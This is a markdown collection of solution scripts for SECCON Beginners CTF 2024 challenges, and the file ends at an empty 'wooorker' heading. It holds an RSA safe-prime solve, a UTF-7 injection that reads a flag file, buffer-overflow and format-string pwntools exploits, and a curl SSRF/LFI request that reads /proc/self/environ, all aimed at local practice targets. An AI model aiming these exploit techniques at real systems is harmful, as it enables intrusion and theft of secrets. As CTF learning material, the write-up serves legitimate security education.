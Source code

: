 # SECCON Beginners CTF 2024

- https://github.com/SECCON/SECCON_Beginners_CTF_2024

## crypto

### Safe Prime

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=5m40s

#### Solution 1

```python
#!/usr/bin/env python3
from Crypto.Util.number import long_to_bytes
from sympy import symbols, Eq, solve
n = 292927367433510948901751902057717800692038691293351366163009654796102787183601223853665784238601655926920628800436003079044921928983307813012149143680956641439800408783429996002829316421340550469318295239640149707659994033143360850517185860496309968947622345912323183329662031340775767654881876683235701491291
c = 40791470236110804733312817275921324892019927976655404478966109115157033048751614414177683787333122984170869148886461684367352872341935843163852393126653174874958667177632653833127408726094823976937236033974500273341920433616691535827765625224845089258529412235827313525710616060854484132337663369013424587861
e = 65537
# q = 2 * p + 1
# n = p * q
# c = pow(m, e, n)
p = symbols('p')
eq = Eq(n, p*(2*p + 1))
solutions = solve(eq, p)
print(f'{solutions=}')
p = int(max(solutions))
q = 2*p + 1
phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, n)
print(long_to_bytes(m).decode())
```

## misc

### commentator

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=79m34s

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import context, remote
# context.log_level = 'debug'
io = remote('::1', 4444)
io.sendlineafter(b'>>> ', b'-*- coding: utf-7 -*-')
io.sendlineafter(b'>>> ', b'+AAo-import os')
io.sendlineafter(b'>>> ', b'+AAo-print(os.listdir("/"))')
io.sendlineafter(b'>>> ', b'+AAo-print(open("/flag-437541b5d9499db505f005890ed38f0e.txt").read())')
io.sendlineafter(b'>>> ', b'__EOF__')
io.stream()
```

## pwnable

### simpleoverflow

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=2m30s

#### Solution 1

```zsh
python3 -c "print('A'*10)"|./chall
```

#### Solution 2

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process, remote
context.log_level = 'debug'
exe = context.binary = ELF('./chall')
# io = exe.process([exe.path])
io = remote('::1', 9000)
io.sendlineafter(b'name:', b'A'*0xe + b'B'*0x8 + p64(0x4011ef))
io.interactive()
```

### simpleoverwrite

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=17m30s

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process
# context.log_level = 'debug'
exe = context.binary = ELF('./chall')
io = process([exe.path])
io.sendlineafter(b'input:', b'A'*0xa + b'B'*8 + p64(exe.sym.win))
io.interactive()
```

### pure-and-easy

- https://qiita.com/mae_t/items/91a82f8efe361305c29b
- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=63m31s

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, FmtStr, context, fmtstr_payload, gdb, log, process, remote
# context.log_level = 'debug'
exe = context.binary = ELF('./chall')
# io = process([exe.path])
# io = gdb.debug([exe.path], gdbscript='b main \n c')
io = remote('::1', 9000)


def exec_fmt(payload):
    p = process([exe.path])
    p.sendline(payload)
    return p.readline()


autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
payload = fmtstr_payload(
        offset, {exe.got.exit: exe.sym.win})
log.info('payload: %s', (repr(payload)))
io.sendlineafter(b'>', payload)
io.stream()
```

## web

### ssrforlfi

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=71m40s

#### Solution 1

```zsh
curl -k 'https://127.0.0.1/?url=file://localhost/proc/self/environ' -o -
```

### wooorker
